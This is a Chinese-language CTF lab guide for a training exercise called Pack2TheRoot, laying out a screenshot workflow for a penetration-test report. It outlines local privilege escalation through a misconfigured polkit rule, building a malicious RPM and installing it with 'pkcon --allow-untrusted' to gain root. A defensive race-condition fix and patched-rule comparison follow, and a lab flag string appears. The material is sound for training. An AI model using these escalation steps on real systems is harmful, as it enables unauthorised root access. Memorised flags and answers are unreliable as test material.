


# 執行流程圖 — Pack2TheRoot CTF 截圖指南

將下方 Mermaid 流程圖貼入 [HackMD](https://hackmd.io/) 或其他支援 Mermaid 的 Markdown 編輯器即可檢視。照圖中步驟操作並截圖，用於滲透測試報告。

## Phase 1 🟢 — 系統偵察（Flag 1 截圖）



### 截圖 1-1：pkaction 輸出
- **指令**：`ssh labuser@localhost -p 2222` → `pkaction --verbose --action-id org.freedesktop.packagekit.package-install-untrusted`
- **截圖重點**：紅框標示 `allow_active = yes`

### 截圖 1-2：自訂 polkit 規則
- **指令**：`cat /etc/polkit-1/rules.d/10-pack2theroot-lab-misconfig.rules`
- **截圖重點**：顯示 `return polkit.Result.YES`

### 截圖 1-3：互動 Lab Flag 1
- **截圖重點**：終端機顯示 🏁 Flag 1 CAPTURED! 及完整 flag 字串

---

## Phase 2 🟡 — 漏洞利用（Flag 2 截圖）

```mermaid
graph TD
    A[ssh labuser@localhost -p 2222] --> B[建立惡意 RPM spec]
    B --> C[rpmbuild -bb /tmp/evil.spec]
    C --> D[Wrote: lab-evil-pkg-1.0-1.noarch.rpm]
    D --> E[截圖：RPM 建立成功]
    E --> F[pkcon install-local --allow-untrusted<br>~/rpmbuild/RPMS/noarch/lab-evil-pkg-<br>1.0-1.noarch.rpm]
    F --> G[截圖：pkcon 安裝過程<br>含 Installed 訊息]
    G --> H[cat /tmp/flag_captured.txt]
    H --> I[截圖：顯示 flag + uid=0(root)]
    I --> J[執行 w12-interactive-lab.py<br>Phase 2 回答問題]
    J --> K{正確回答 Q1-Q3?}
    K -->|Yes| L[🏁 Flag 2 釋出]
    L --> M[截圖：終端機顯示<br>🏁 Flag 2 CAPTURED!]
```

### 截圖 2-1：RPM 建立成功
- **指令**：`rpmbuild -bb /tmp/evil.spec`
- **截圖重點**：終端機最後一行顯示 `Wrote: /home/labuser/rpmbuild/RPMS/noarch/lab-evil-pkg-1.0-1.noarch.rpm`

### 截圖 2-2：pkcon 安裝成功
- **指令**：`pkcon install-local --allow-untrusted ~/rpmbuild/RPMS/noarch/lab-evil-pkg-1.0-1.noarch.rpm`
- **截圖重點**：顯示 `Installed lab-evil-pkg-1.0-1.noarch (local)`

### 截圖 2-3：Flag + Root 確認（最重要）
- **指令**：`cat /tmp/flag_captured.txt`
- **截圖重點**：必須同時看到
  - `PACK2THEROOT{...}` flag 字串
  - `uid=0(root) gid=0(root) groups=0(root)` 確認以 root 執行

### 截圖 2-4：互動 Lab Flag 2
- **截圖重點**：終端機顯示 🏁 Flag 2 CAPTURED!

---

## Phase 3 🔴 — 防禦實作（Flag 3 截圖）

```mermaid
graph TD
    A[python3 transaction_demo.py --vulnerable] --> B[觀察 race condition]
    B --> C[截圖：顯示負數約 990 次]
    C --> D[編輯 transaction_demo.py<br>完成 safe_execute 方法]
    D --> E[python3 transaction_demo.py --safe]
    E --> F[截圖：顯示 balance 負數 0 次<br>執行超過 0 次]
    F --> G{0 負數 AND 0 重複?}
    G -->|Yes| H[🏁 FLAG{w12_s4f3_st4t3_m4ch1n3_d3f3ns3}]
    G -->|No| I[檢查 Lock 範圍 → 重試]
    H --> J[截圖：終端機顯示<br>🏁 FLAG{...}]
    J --> K[執行 w12-interactive-lab.py<br>Phase 3 回答問題]
    K --> L{正確回答?}
    L -->|Yes| M[🏁 W12 Flag 3 釋出]
    L -->|No| N[漸進提示 → 重試]
    M --> O[截圖：終端機顯示<br>🏁 Flag 3 CAPTURED!]
```

### 截圖 3-1：脆弱版本觀察
- **指令**：`python3 transaction_demo.py --vulnerable`
- **截圖重點**：顯示 `balance 出現負數：993 次`

### 截圖 3-2：安全版本通過
- **指令**：`python3 transaction_demo.py --safe`
- **截圖重點**：必須同時顯示
  - `balance 出現負數：0 次`
  - `執行超過一次：0 次`
  - `🏁 FLAG{w12_s4f3_st4t3_m4ch1n3_d3f3ns3}`

### 截圖 3-3：互動 Lab Flag 3
- **截圖重點**：終端機顯示 🏁 Flag 3 CAPTURED!

---

## 補充截圖 — Patched 對比 + IOC



### 截圖 4-1：Patched polkit 規則
- **截圖重點**：顯示 `return polkit.Result.AUTH_ADMIN_KEEP`

### 截圖 4-2：Patched 攻擊被拒
- **截圖重點**：pkcon 因 polkit 認證要求而失敗

### 截圖 5-1：IOC 日誌
- **截圖重點**：`journalctl` 輸出（如無內容也截圖顯示 `-- No entries --`）
